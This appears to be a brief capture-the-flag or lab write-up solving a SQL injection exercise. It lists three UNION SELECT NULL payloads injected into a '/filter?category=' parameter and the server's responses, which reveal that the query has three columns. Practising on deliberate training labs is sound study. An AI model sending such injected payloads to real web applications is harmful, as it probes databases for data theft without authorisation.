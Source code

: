 # lab-determine-number-of-columns

`/filter?category=Gifts'+UNION+SELECT+NULL`: Internal Server Error

`/filter?category=Gifts'+UNION+SELECT+NULL,+NULL`: Internal Server Error

`/filter?category=Gifts'+UNION+SELECT+NULL,+NULL,+NULL--` Ok (3 columns)

Solved.

